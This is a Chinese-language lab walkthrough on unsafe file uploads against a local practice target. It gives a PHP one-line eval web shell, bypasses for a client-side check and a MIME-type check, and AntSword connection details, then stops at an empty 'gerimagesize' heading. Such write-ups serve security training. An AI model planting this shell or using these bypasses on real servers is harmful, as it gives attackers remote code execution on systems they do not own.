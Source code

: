

## Unsafe Fileupload

### client check

静态检查，还是老样子，写一个一句话木马在`shell.php`文件中

```
<?php @eval($_POST['cmd'])?>
```

然后前端F12禁掉检查的代码函数，或者直接修改php文件可上传即可。

![image-20250113233202547](../../_media/image-20250113233202547.png)

然后蚁剑连接即可

```
URL地址: http://127.0.0.1/vul/unsafeupload/uploads/shell.php
连接密码: cmd
```



### MIME type

很明显根据提示，上传之后进行抓包修改`MIME type`即可

```
Content-Type: image/jpeg
```

可以上传成功，显示保存路径

```
文件保存的路径为：uploads/shell.php
```

然后蚁剑连接即可

```
URL地址: http://127.0.0.1/vul/unsafeupload/uploads/shell.php
连接密码: cmd
```



### gerimagesize



